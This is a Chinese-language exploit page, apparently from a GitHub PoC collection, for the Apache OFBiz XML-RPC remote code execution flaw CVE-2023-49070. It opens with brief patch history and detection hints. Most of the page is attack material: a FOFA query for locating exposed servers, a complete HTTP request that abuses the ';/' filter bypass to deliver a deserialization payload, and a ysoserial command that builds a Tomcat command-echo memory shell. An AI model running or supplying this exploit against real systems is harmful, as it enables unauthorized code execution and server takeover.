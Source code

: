 ## Apache Ofbiz XML-RPC RCE漏洞-CVE-2023-49070
2020年，为修复 CVE-2020-9496 增加权限校验，存在绕过。2021年，增加 Filter 用于拦截 XMLRPC 中的恶意请求，存在绕过。2023年四月，彻底删除xmlrpc handler 以避免同类型的漏洞产生尽管主分支在四月份已经移除了XML-RPC组件，但在Apache OFBiz的正式发布版本中，仅最新版本18.12.10彻底废除了XML-RPC功能。

流量分析: 攻击者利用这个漏洞时，会发送包含用户名和密码的 HTTP 请求到 XML-RPC 接口。在网络流量中，这可能表现为对 /webtools/control/xmlrpc 的异常访问请求。

异常请求内容: 利用 Filter 绕过机制的请求可能包含不寻常的 URI 结构，如使用分号或路径穿越技术(./)。

特定的错误日志: 在尝试进行反序列化攻击时，可能会在日志中观察到相关错误或异常信息，尤其是与XML-RPC 组件相关的。

## fofa
```
app="Apache_OFBiz"
```

## poc
```
POST /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.8 (KHTML, like Gecko) Version/9.1.3 Safari/601.7.8
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
 
<?xml version="1.0"?>
<methodCall>
  <methodName>RCE</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>RCE</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">
              [CB1 base64编码的序列化数据]
              </serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
## 回显内存马
```
java -jar ysoserial-main-49888d3191-1.jar CommonsBeanutils192NOCC "CLASS:TomcatCmdEcho" | base64 | tr -d "\n"
```
![6258c158de059f1edbe8c4026ee65ba8](https://github.com/wy876/POC/assets/139549762/63d1d7ae-dbe6-4bc9-8a9d-830d5bea5e9e)

![c13860bff93338c758f4d8cca201939e](https://github.com/wy876/POC/assets/139549762/274af3d0-81b1-4c01-83c5-3fbb631e4ed4)


